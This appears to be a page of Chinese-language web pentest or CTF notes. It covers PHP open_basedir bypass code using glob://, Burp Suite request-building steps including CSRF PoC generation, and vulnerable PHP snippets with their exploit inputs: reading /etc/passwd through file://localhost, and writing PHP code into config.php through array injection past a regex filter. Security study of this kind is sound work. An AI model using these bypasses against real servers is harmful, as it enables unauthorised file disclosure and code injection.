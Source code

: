 
查看 phpinfo 有 open_basedir 限制，利用 glob:///* 绕过

```php
<?php
printf('<b>open_basedir : %s </b><br />', ini_get('open_basedir'));
$files = [];
// normal files
$it = new DirectoryIterator("glob:///*");
foreach($it as $f) {
    $files[] = $f->__toString();
}
// special files (starting with a dot(.))
$it = new DirectoryIterator("glob:///.*");
foreach($it as $f) {
    $files[] = $f->__toString();
}
sort($files);
var_dump($files);
?>
```





windows 中的转义

```
代码中的 <> 符号，要用 ^^ 转义。比如 <?php 转义为 ^<^?php
```



Burp

```
生成GET数据包：复制url -> 打开burp -> repeater -> 右键paste url as request
生成POST数据包：生成一个GET数据包 -> 右键change request method
生成上传数据包：生成一个POST数据包 -> 右键change body encoding  -> 增加filename字段 -> 右键paste from file添加待上传的文件
发送真实数据包：chrome抓包 -> 复制数据包 -> 粘贴到repeater -> 增加target -> 发送
从数据包生成URL：任意数据包页面 -> 右键copy url
从数据包生成curl命令：任意数据包页面 -> 右键copy as curl command
从数据包生成html表单（可测CSRF漏洞）：任意数据包页面 -> 右键engagement tools -> generate csrf poc
```

### Trick

```php
<?php
$url = $_GET['url'];
$parts = parse_url($url);
if(empty($parts['host']) || $parts['host'] != 'localhost') {
    exit('error');
}
readfile($url);
?>
url=file://localhost/etc/passwd

<?php
$text = $_GET['text'];
if(preg_match('[<>?]', $text)) {
    die('error!');
}
file_put_contents('config.php', $text);

// text 这可以传一个数组，过了正则匹配，在 file_put_contents 处又可以自动拼接
text[0]=<&text[1]=?php%20phpinfo();


pathinfo($log_name, PATHINFO_EXTENSION) 用 /. 绕？
```